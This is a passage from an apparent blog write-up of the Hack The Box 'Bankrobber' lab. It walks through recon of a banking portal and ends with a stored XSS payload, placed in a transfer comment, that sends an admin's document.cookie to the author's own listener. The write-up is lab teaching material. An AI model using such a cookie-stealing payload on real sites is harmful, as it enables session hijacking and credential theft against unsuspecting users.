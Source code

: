 <p>Once in it looks like they provided us with a nice signing bonus. We have a few E-coins to play with. The functionality within the portal is a little limited, however there does seem to be a working transfer mechanism.</p>

<p>
<img width="55%" height="55%" src="{{ '/assets/htb-bankrobber/recon-transfer.PNG' | relative_url }}">
</p>

<p>To transfer E-coins it looks like we need to provide the address ID. If we take a look at our session cookie we can see that the account we created has an ID of '3' and that the username and password are the base64 values of "test", which is what we used to create our initial account. This knowledge will probably come in handy later on.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/recon-cookie.PNG' | relative_url }}">
</p>

<p>I made a small assumption at this point that the schema was incrementally numeric. With that assumed, we can try sending a small amount of E-coins to account ID=1 and see what happens.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/recon-transferburp.PNG' | relative_url }}">
</p>

<p>Back on the the site a popup also appeared.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/recon-transferadmin.PNG' | relative_url }}">
</p>

<p>Excellent, so it seems like an admin is actually reviewing the request and will either approve or deny it. I wonder if we can trick them into running something malicious... maybe to steal their cookie which we know has the username and password?</p>

<h1>User exploitation</h1>
 
<p>With a plan in mind, let's try and craft the payload properly. I recently attended a CTF event that had a similar challenge approach where I started my own Apache instance locally and crafted the payload to direct the malicious call with cookies to that instance. I took the same approach here and started my instance. I used the following payload and entered it into the comment section of the transfer function.</p>

{% highlight shell %}
<SCRIPT>var+img=new+Image();img.src="http://10.10.14.23/"%20+%20document.cookie;</SCRIPT>
{% endhighlight %}

<p>
<img src="{{ '/assets/htb-bankrobber/user-xsspayload.PNG' | relative_url }}">
</p>

<p>
<img src="{{ '/assets/htb-bankrobber/user-xsspayload2.PNG' | relative_url }}">
</p>
